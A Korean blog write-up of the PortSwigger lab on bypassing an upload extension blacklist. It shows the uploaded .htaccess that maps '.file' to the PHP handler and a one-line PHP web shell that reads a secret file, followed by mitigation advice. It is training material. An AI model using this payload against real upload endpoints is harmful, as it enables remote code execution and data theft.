




+++
date = '2026-10-04T20:30:00+09:00'
draft = false
title = "[Write-up] PortSwigger - Web shell upload via extension blacklist bypass"
summary = ".htaccess로 새로운 확장자를 PHP 처리기에 연결해 확장자 차단을 우회하는 File Upload 풀이"
toc = true
tags = ["File Upload", "Web Shell", "PortSwigger", "Practitioner"]
+++

---

## 문제 분석

> **난이도**: `PRACTITIONER`  
> **Lab**: [Web shell upload via extension blacklist bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass)

> 

이 랩의 아바타 업로드는 특정 확장자를 차단한다. 업로드가 허용되는 파일과 서버 설정을 이용해 PHP 코드를 실행하고, `/home/carlos/secret`의 내용을 읽어 제출하는 것이 목표다.

실습 계정은 `wiener:peter`다.

### File Upload 진단

먼저 주어진 계정으로 로그인하여 업로드 요청을 확인한다.

```text
POST /my-account/avatar HTTP/2
Host: 0a3c006a0441b97c803d67ae003a003b.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryU4WZgRNvYXdurwHu
...

------WebKitFormBoundaryU4WZgRNvYXdurwHu
Content-Disposition: form-data; name="avatar"; filename="fake-image.png"
Content-Type: image/png

image
------WebKitFormBoundaryU4WZgRNvYXdurwHu
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryU4WZgRNvYXdurwHu
Content-Disposition: form-data; name="csrf"

MweJdGsg9LXFUEEYaBfglZ0L4HKQfrkN
------WebKitFormBoundaryU4WZgRNvYXdurwHu--
```

위 요청에서 filename을 `.php` 확장자로 업로드하면 “Sorry, php files are not allowed” 라는 응답이 내려온다.

`.php5`와 `.php7`로 바꾸면 업로드는 되지만 PHP 실행 결과는 나오지 않는다. 이 서버에서는 해당 확장자에 PHP 처리가 연결되어 있지 않은 것으로 볼 수 있다.

다음으로 디렉터리 설정 파일인 `.htaccess`를 업로드한다. `AddType`으로 `.file` 확장자를 PHP가 처리하는 타입에 연결한다.

```text
------WebKitFormBoundaryU4WZgRNvYXdurwHu
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: image/png

AddType application/x-httpd-php .file
------WebKitFormBoundaryU4WZgRNvYXdurwHu
```

설정 파일 업로드 후 PHP 코드를 `.file`로 저장하고 조회하면 실행 결과가 반환된다.



---

## 익스플로잇

이제 `.file` 확장자로 `/home/carlos/secret`의 내용을 읽는 PHP 코드를 업로드한다.

```text
------WebKitFormBoundaryU4WZgRNvYXdurwHu
Content-Disposition: form-data; name="avatar"; filename="fake-image.file"
Content-Type: image/png

<?php system("cat /home/carlos/secret");?>
------WebKitFormBoundaryU4WZgRNvYXdurwHu
```

업로드한 파일을 조회하면 랩에서 지정한 파일 내용이 반환된다.



확인한 문자열을 제출하면 실습이 완료된다.



---

## 정리

`.php`는 차단되어 있었지만, 업로드한 `.htaccess`가 다른 확장자의 처리 방식을 바꿀 수 있었다. 이 랩의 Apache 설정에서는 `AddType` 지시문이 적용되어 `.file`이 PHP로 실행됐다.

이 방식이 성립하려면 해당 디렉터리에서 `.htaccess`의 지시문이 허용되고 PHP 처리기가 연결되어 있어야 한다. 대응에서는 필요한 파일 형식만 허용하고, 업로드한 설정 파일로 실행 정책이 바뀌지 않도록 서버 설정을 제한한다.

유형별 원리와 다른 실습은 [File Upload Lab](/lab/portswigger-file-upload/)에 정리했다.
